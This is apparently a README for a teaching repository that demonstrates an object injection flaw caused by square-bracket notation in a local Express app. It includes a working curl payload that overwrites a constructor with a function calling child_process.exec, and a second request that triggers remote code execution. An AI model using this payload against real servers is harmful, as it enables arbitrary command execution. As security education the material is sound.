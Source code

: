 # Express-object-injection

A prototype to demonstrate the dangers of square bracket notation using object injection attack. It is inspired by this [article](https://github.com/nodesecurity/eslint-plugin-security/blob/master/docs/the-dangers-of-square-bracket-notation.md) from ESLint Security. This article was originally written by Jon Lamendola for [^Lift Security](https://web.archive.org/web/20150430062816/https://blog.liftsecurity.io/2015/01/15/the-dangers-of-square-bracket-notation).

## Step 0

* Install nodejs

* clone repository

```console
$ git clone https://github.com/0xdbe/express-object-injection.git
$ cd express-object-injection
```

* Install express

```console
$ npm install
```
* Start application

```console
$ node index.js
```

## Step 1

* Setting a malicious fuction as constructor

```console
$ curl http://localhost:3000/api/user \
    -H 'Content-Type: application/json' \
    --data '["constructor", "var require = global.require || global.process.mainModule.constructor._load;require(\"child_process\").exec(arguments[0], console.log)"]'
```

* Call the malicious function allowing a remote code execute (RCE)

```console
$ curl http://localhost:3000/api/user \
  -H 'Content-Type: application/json' \
  --data '["anyVal", "date"]'
```

note: this vulnerable function is not detected by ESLint Security !!
